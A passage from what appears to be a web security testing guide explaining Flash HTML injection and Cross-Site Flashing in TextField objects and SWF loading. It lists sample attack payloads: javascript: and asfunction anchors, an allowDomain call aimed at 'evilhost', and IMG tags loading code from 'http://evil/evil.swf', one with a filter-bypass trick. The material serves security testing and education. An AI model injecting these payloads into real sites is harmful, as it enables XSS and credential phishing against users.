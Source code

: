 ### HTML Injection

TextField Objects can render minimal HTML by setting:

`tf.html = true`
`tf.htmlText = '`<tag>`text`</tag>`'`

So if some part of text could be controlled by the tester, an A tag or
an IMG tag could be injected resulting in modifying the GUI or XSS the
browser.

Some attack examples with A Tag:

  - Direct XSS: <a href='javascript:alert(123)' >



  - Call a function: <a href='asfunction:function,arg' >



  - Call SWF public functions:

`   `<a href='asfunction:_root.obj.function, arg'>

  - Call native static as function:

<a href='asfunction:System.Security.allowDomain,evilhost' >

IMG tag could be used as well:

<img src='http://evil/evil.swf' >
<img src='javascript:evilcode//.swf' >` (.swf is necessary to bypass flash player internal filter)`

Note: since release Flash Player 9.0.124.0 of Flash player XSS is no
longer exploitable, but GUI modification could still be accomplished.

### Cross-Site Flashing

Cross-Site Flashing (XSF) is a vulnerability which has a similar impact
as XSS.

XSF Occurs when from different domains:

  - One Movie loads another Movie with loadMovie\* functions or other
    hacks and has access to the same sandbox or part of it
  - XSF could also occurs when an HTML page uses JavaScript to command
    an Adobe Flash movie, for example, by calling:
      - GetVariable: access to flash public and static object from
        JavaScript as a string.
      - SetVariable: set a static or public flash object to a new string
        value from JavaScript.
  - Unexpected Browser to SWF communication could result in stealing
    data from the SWF application.

It could be performed by forcing a flawed SWF to load an external evil
flash file. This attack could result in XSS or in the modification of
the GUI in order to fool a user to insert credentials on a fake flash
form. XSF could be used in the presence of Flash HTML Injection or
external SWF files when loadMovie\* methods are used.
